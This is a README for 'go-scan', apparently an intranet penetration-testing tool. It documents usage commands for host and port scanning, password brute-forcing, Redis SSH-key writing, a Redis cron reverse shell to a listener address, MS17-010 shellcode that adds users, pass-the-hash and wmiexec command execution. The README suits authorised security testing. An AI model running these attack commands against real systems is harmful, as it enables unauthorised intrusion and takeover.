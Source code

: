 # go-scan

This tool is an intranet comprehensive scanning solution designed for automated and all-encompassing reconnaissance. It facilitates host
survival detection, port scanning, exploitation of common services, MS17010 vulnerability assessment, Redis batch public key writing,
scheduled task rebound shell, retrieval of Windows network card information, web fingerprint identification, web vulnerability scanning,
netBIOS detection, domain control identification, and various other functions.

# Features

1. **Data Collection**:
    - *Survival Detection (ICMP)*
    - *Port Scanning*

2. **Brute Force Attacks**:
    - *Various Service Brute Force Attacks (SSH, SMB, RDP, etc.)*
    - *Database Password Brute Force Attacks (MySQL, MSSQL, Redis, PSQL, Oracle, etc.)*

3. **System Information and Vulnerability Assessment**:
    - *NetBIOS Detection and Domain Control Identification*
    - *Collection of Network Interface Controller (NIC) Information*
    - *High-Risk Vulnerability Assessment (MS17010, etc.)*

4. **Web Application Detection**:
    - *Web Title Detection*
    - *Web Fingerprinting (CMS, OA Framework, etc.)*
    - *Web Vulnerability Scanning (WebLogic, ST2, etc., also supports Xray PoC)*

5. **Exploitation**:
    - *Writing Redis Public Key and Scheduled Tasks*
    - *Executing SSH Commands*
    - *Utilizing the MS17017 Vulnerability to Implant Shellcode (e.g., adding users)*

6. **Other Actions**:
    - Saving Output Results

# Instructions

Getting Started

```bash
mv go-scan_mac_arm64 /usr/local/bin/go-scan

go-scan -h 192.168.1.1/24
go-scan -h 192.168.1.1/16
```

Advanced

```bash
go-scan -h 192.168.1.1/24 -np -no -nopoc(Skip survival detection, do not save output result, skip web poc scanning)
go-scan -h 192.168.1.1/24 -rf id_rsa.pub (Redis write public key)
go-scan -h 192.168.1.1/24 -rs 192.168.1.1:6666 (Redis scheduled task rebound shell)
go-scan -h 192.168.1.1/24 -c whoami (Execute ssh command)
go-scan -h 192.168.1.1/24 -m ssh -p 2222 (Specify ssh module and port)
go-scan -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (Load the specified file and password to blast
go-scan -h 192.168.1.1/24 -o /tmp/1.txt (Specify the path to save the scan results, which is saved in the current path by default) 
go-scan -h 192.168.1.1/8  192.x.x.1 and 192.x.x.254 of segment A, convenient for quickly viewing network segment information )
go-scan -h 192.168.1.1/24 -m smb -pwd password (Smb password crash)
go-scan -h 192.168.1.1/24 -m ms17010 (Specified ms17010 module)
go-scan -hf ip.txt  (Import target from file)
go-scan -u https://google.com -proxy 8080 (Scan a url and set http proxy http://127.0.0.1:8080)
go-scan -h 192.168.1.1/24 -nobr -nopoc (Do not blast, do not scan Web poc, to reduce traffic)
go-scan -h 192.168.1.1/24 -pa 3389 (Join 3389->rdp scan)
go-scan -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (Proxy only supports simple tcp functions, and libraries with some functions do not support proxy settings)
go-scan -h 192.168.1.1/24 -m ms17010 -sc add (Built-in functions such as adding users are only applicable to alternative tools, and other special tools for using ms17010 are recommended)
go-scan -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (Hash collision)
go-scan -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx(Wmiexec module no echo command execution)
```

Compile command

```
go build -ldflags="-s -w " -trimpath main.go
upx -9 go-scan (Optional, compressed)
```

Full parameters

```
Usage of ./go-scan:
  -br int
        Brute threads (default 1)
  -c string
        exec command (ssh|wmiexec)
  -cookie string
        set poc cookie,-cookie rememberMe=login
  -debug int
        every time to LogErr (default 60)
  -dns
        using dnslog poc
  -domain string
        smb domain
  -full
        poc full scan,as: shiro 100 key
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hash string
        hash
  -hf string
        host file, -hf ip.txt
  -hn string
        the hosts no scan,as: -hn 192.168.1.1/24
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nobr
        not to Brute password
  -nopoc
        not to scan web vul
  -np
        not to ping
  -num int
        poc rate (default 20)
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        add port base DefaultPorts,-pa 3389
  -path string
        fcgi、smb romote file path
  -ping
        using ping replace icmp
  -pn string
        the ports no scan,as: -pn 445
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -pocpath string
        poc file path
  -portf string
        Port File
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwda string
        add a password base DefaultPasses,-pwda password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub) 
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666) 
  -sc string
        ms17 shellcode,as -sc add
  -silent
        silent scan
  -socks5 string
        set socks5 proxy, will be used in tcp connection, timeout setting will not work
  -sshkey string
        sshkey file (id_rsa)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -top int
        show live len top (default 10)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -usera string
        add a user base DefaultUsers,-usera user
  -userf string
        username file
  -wmi
        start wmi
  -wt int
        Set web timeout (default 5)
```

# Examples

`go-scan -h 192.168.x.x  (Open all functions, ms17010, read network card information)`

`go-scan -h 192.168.x.x -rf id_rsa.pub (Redis write public key)`

`go-scan -h 192.168.x.x -c "whoami;id" (ssh command)`

`go-scan -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 (Support for xray poc)`

`go-scan -h 192.168.x.x -p 139 (Netbios detection, domain control identification, the [+]DC in the figure below represents domain control)`

`go run .\main.go -h 192.168.x.x/24 -m netbios (Show complete netbios information)`

`go run .\main.go -h 192.0.0.0/8 -m icmp(Detect the gateway and several random IPs of each segment C, and count the number of surviving top 10 segments B and C)`

